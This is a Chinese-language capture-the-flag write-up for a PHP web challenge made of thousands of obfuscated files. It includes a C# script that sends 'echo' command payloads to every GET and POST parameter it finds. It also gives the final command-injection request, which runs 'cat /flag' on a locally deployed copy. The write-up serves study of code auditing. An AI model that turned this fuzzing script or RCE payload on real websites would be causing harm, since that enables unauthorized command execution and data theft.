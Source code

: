 ![[Pasted image 20221126133523.png]]

---
首页长这样

![[Pasted image 20221126133538.png]]

离谱了

![[Pasted image 20221126134519.png]]

（草

这么多代码人工审计是不现实了（每日一题都不容易，这直接给我每日数千题QAQ），部署到了本地，尝试黑箱爆破

网上有大佬写好的`exp`，但是不会`python`QAQ，所以就用`C#`自己写了个（话说没有`GIL`，`C#`的多线程会不会比`python`快很多呢www）
```cs
using System.Text.RegularExpressions;

var dir = "/usr/share/nginx/html/src";
var files = Directory.GetFiles(dir);

var regexGet = new Regex(pattern: @"\$_GET\['(\w+)'\]");
var regexPost = new Regex(pattern: @"\$_POST\['(\w+)'\]");
var regexResponse = new Regex(pattern: @"maybeapayload");

Parallel.ForEach(files, file =>
{
    using StreamReader reader = File.OpenText(file);
    var content = reader.ReadToEnd();

    var matches = regexGet.Matches(content);
    var namesGet = new List<string>();
    foreach (Match match in matches)
    {
        var nameGet = match.Groups[1].Value;
        namesGet.Add(nameGet);
    }

    matches = regexPost.Matches(content);
    var namesPost = new List<string>();
    foreach (Match match in matches)
    {
        var namePost = match.Groups[1].Value;
        namesPost.Add(namePost);
    }
    UriBuilder uriBuilder = new()
    {
        Host = "localhost",
        Path = $"src/{Path.GetFileName(file)}",
        Query = string.Join('&', namesGet.ConvertAll(nameGet => $"{nameGet}=echo maybeapayload"))
    };
    // Console.WriteLine(uriBuilder.Uri);
    Dictionary<string, string> dict = new();
    namesPost.ForEach(namePost => dict.Add(namePost, "echo maybeapayload"));

    using HttpClient client = new HttpClient();
    using var response = client.PostAsync(uriBuilder.Uri, new FormUrlEncodedContent(dict)).Result;

    if (regexResponse.IsMatch(response.Content.ReadAsStringAsync().Result))
    {
        Console.WriteLine(file);
        Console.WriteLine(response.Content.ReadAsStringAsync().Result);
    }
});
```
跑完差不多花了4秒（打开优化的情况下），感觉效率蛮高

![[Pasted image 20221126204354.png]]

![[Pasted image 20221126204440.png]]

顺藤摸瓜找一找在`php`中出现的位置

![[Pasted image 20221126205805.png]]

这这这这藏得也太隐蔽了叭，出题人呕心沥血生成几千个文件来雷普萌新，他真的，我哭死==
```php
/xk0SzyKwfzw.php?Efa5BVG=cat /flag
```

![[Pasted image 20221126210934.png]]

#Web #PHP #代码审计 #RCE #代码混淆